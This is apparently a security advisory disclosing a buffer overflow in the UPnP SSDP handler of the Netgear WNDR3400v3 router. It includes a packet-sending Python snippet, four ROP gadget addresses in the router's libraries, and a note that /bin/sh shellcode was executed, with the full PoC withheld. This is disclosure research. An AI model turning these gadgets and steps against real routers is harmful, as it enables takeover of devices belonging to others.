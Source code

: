 # Netgear (WNDR3400v3) Buffer Overflow Via UPnP SSDP #

**Vendor**：Netgear

**Product**: N600 WiFi Dual Band Router (WNDR3400v3)

**Firmware Version**: V1.0.1.18_1.0.63

**Vendor Homepage**: https://www.netgear.com/default.aspx

**CVE**: Pending

**NVD**: Pending

## Vulnerability detail ##
### A PoC script will be provided once the vendor has responded ###

1. There exists a buffer overflow in the ssdp_http_method_check function in the upnpd binary.
![alt text](screenshots/ghidra_upnp.png)

2. Sending a crafted UPnP SSDP packet allows for the $ra register to be overwritten.
```python
    ### UPnP Architecture Specs ###
    # M-SEARCH - Method for search requests
    # HOST - Multicast channed and port reserved for SSDP
    # MAN - Required by HTTP Exension Framework, defines the scope (namespace) of the extension
    # MX - MAximum wait time in seconds
    # ST: Required search target, pre defined values
    SSDP = arbitrary_string

    s = socket.socket(socket.AF_INET, socket.SOCK_DGRAM)
    s.settimeout(5)
    s.sendto(SSDP, ('239.255.255.250', 1900) )
    s.close()
```
3.  While the stack is executable it does however employ ASLR. 
![alt text](screenshots/memory_map.png)
4. A ROP chain can be used to execute shellcode on the stack.  Several libraries such as libc.so.0, libnat.so and libcrypt.so.0 
have static address spaces which can be used to chain ROP gadgets.
```
ROP Gadget 1
-------------
libnat.so - 0x0000c488 

addiu $a0, $zero, 0xf 
move $t9, $s6 
jalr $t9 
move $a2, $zero 

ROP Gadget 2
-------------
lic.so.0 - 0x00038800

move $t9, $s2 
lw $ra, 0x28($sp)
lw $s3, 0x24($sp) 
lw $s2, 0x20($sp) 
lw $s1, 0x1c($sp) 
lw $s0, 0x18($sp)
jr $t9 
addiu $sp, $sp, 0x30

ROP Gadget 3
-------------
libcrypt.so.0 - 0x0000203c

move $t9, $s2
jalr $t9
addiu $a1, $sp, 0x2

ROP Gadget 4
-------------
lic.so.0 - 0x00032a6c

move $t9, $a1
addiu $a0, $a0, 0x38
jr $t9 
move $a1, $a2
```
5.  This ROP chain can be used to execute shellcode on the stack.  PoC shellcode '/bin/sh' written by Sanguine (https://www.exploit-db.com/exploits/35868)
was used to test this. Below the [sh] process was executed. Although this process immediately terminates once gdb is exited.    
![alt text](screenshots/sh.png)
